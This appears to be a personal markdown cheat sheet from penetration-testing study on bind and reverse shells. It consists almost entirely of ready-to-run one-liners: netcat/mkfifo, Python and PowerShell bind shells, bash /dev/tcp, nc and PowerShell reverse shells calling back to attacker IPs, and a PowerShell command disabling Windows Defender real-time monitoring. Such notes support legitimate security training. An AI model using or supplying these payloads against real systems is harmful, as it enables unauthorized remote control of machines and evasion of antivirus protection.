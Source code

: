 
# Bind shells
- Target hosts server, we connect to it
- Issues
	- firewalls; OS typically block incoming connections


## Establishing Bind Shell with Netcat
1. Server binds bash shell to TCP session
	- Linux
		- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 8888 > /tmp/f`
			- this is server's IP
		-  `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
	- Windows
		-  `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`
2. Client connects
	- `nc -nv 10.129.41.200 8888`
		- again, server's IP


# Reverse Shells
- We host listener, target connects
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

1. Server listens (our machine)
	- `sudo nc -lvnp 443`
2. Target connects
	- Linux
		- `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
		- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f``
	- Windows
		- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
			- Take note of server IP and port

	- Disabling Antivirus
		- `Set-MpPreference -DisableRealtimeMonitoring $true`

